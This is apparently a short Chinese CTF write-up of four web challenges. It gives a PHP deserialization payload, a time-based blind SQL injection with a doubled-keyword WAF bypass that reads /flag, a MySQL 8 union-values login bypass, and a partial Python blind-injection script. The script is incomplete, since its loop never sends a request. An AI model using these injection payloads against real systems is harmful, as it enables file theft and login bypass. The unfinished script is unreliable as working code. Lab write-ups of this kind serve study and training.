 

# Web4

index.phps泄露，然后直接打就行了。

```
?s=a:2:{i:0;s:4:"Easy";i:1;s:7:"getflag";}
```



# Web5

时间盲注和双写绕waf就行。

```
?id=0'||if(ascii(substr(((selselectect load_file('/flag'))),1,1))<0,benchmark(1000000,sha(1)),1=2)%23
```

写脚本跑就行，比赛时的脚本找不到了就懒得再写了。



# login

mysql8联合注一下就行。

```
username=-1'union values row(1,2,'c4ca4238a0b923820dcc509a6f75849b')%23&password=1&login=login
```



# 海量视频

```python
"""
Author:feng
"""
import requests
from time import *
def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
        return num

url='http://eci-2zee7zo24ni5sw3bnjug.cloudeci1.ichunqiu.com'

"jw2fdkci2F2md2FFA4"
flag=''
for i in range(5,100):
    min=32
    max=128
    while 1:
        j=min+(max-min)//2
        if min==j:
            flag+=chr(j)
            print(flag)
            if chr(j)=='}':
                exit()
            break
```